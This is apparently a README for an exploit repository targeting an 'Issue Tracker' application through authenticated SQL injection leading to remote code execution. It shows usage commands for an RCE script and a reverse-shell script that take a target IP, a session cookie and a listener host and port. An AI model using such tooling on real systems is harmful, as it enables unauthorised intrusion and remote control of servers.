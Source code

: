 # Issue Tracker Authenticated Remote Code Execution Via SQL Injection

## RCE
#### Usage
```bash
python3 issue_rce.py <target_ip> <jessionid_cookie>
```
## Reverse Shell
#### Usage
```bash
python3 issue_rev.py <target_ip> <jsessionid_cookie> <lhost> <lport>
```
